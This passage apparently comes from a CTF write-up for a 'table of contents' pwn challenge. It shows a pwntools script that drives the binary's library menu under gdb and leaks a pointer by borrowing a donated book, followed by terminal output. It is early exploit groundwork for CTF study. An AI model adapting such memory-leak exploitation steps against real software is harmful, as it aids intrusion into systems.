 ```
pid = gdb.attach(target, "\nb *add\nb *fetch\nb *return_book\nset disassembly-flavor intel\ncontinue")


def donate_book(title):
	print(target.recvuntil(b'5) Leave feedback'))
	target.sendline(b'1')
	print(target.recvuntil(b'title'))
	target.sendline(title)

def list_books():
	print(target.recvuntil(b'5) Leave feedback'))
	target.sendline(b'2')
	
def borrow_book(index):
	print(target.recvuntil(b'5) Leave feedback'))
	target.sendline(b'3')
	print(target.recvuntil(b'get?'))
	target.sendline(str(index))
	print(target.recvuntil(b'3) Tear out page'))
	target.sendline(b'1')
	print(target.recvuntil(b'is: '))
	pointer = target.recvline().strip()
	print(pointer)
	return(int(pointer, 16))
	
def return_book(ref_num):
	print(target.recvuntil(b'5) Leave feedback'))
	target.sendline(b'4')
	print(target.recvuntil(b'reference number'))
	target.sendline(hex(ref_num))

def feedback(index, my_feedback):
	print(target.recvuntil(b'5) Leave feedback'))
	target.sendline(b'5')
	print(target.recvuntil(b'feedback:'))
	target.sendline(str(index))
	print(target.recvuntil(b'Enter feedback:'))
	target.sendline(my_feedback)
	

donate_book(b'a' * 50)

list_books()

pointer = borrow_book(0)

print(hex(pointer))

target.interactive()
```
The results in the terminal:
```
knittingirl@piglet:~/CTF/romCTF/pwn_table_of_contents$ python3 tableofcontents_writeup.py 
[+] Starting local process './tableofcontents': pid 2521936
[*] running in new terminal: /usr/bin/gdb -q  "./tableofcontents" 2521936 -x /tmp/pwnz21x8x8m.gdb
[+] Waiting for debugger: Done
b'WELCOME!\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter title'
b' > 1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> What index to get?'
```